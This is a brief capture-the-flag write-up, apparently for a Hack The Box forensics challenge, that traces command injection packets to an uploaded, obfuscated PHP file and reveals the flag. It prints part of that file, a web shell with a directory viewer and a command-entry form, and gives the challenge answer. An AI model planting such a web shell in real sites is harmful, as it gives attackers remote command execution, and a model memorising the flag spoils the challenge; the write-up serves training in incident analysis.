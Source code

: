 1. Find the command injection packets
![injection.png](injection.png)


2. Trace back to when the php file is being uploaded

![](file_upload.png)

![](packet-upload.png)


3. Download galactic.php

![](downlaod-file.png)


4. Deobfuscate the php file

https://onecompiler.com/php/3z3arsf44

5. Flag stored as a comment

```php
.
.
.
.
        $dir = './';
}
$dir = realpath($dir.'/'.$value);
##flag = HTB{W0w_ROt_A_DaY}
$dirs = scandir($dir);
echo "<h2>Viewing directory " . $dir . "</h2>";
echo "\n<br><form action='".$_SERVER['PHP_SELF']."' method='GET'>";
echo "<input type='hidden' name='dir' value=".$dir." />";
echo "<input type='text' name='cmd' autocomplete='off' autofocus>\n<input type='submit' value='Execute'>\n";
.
.
.
.
```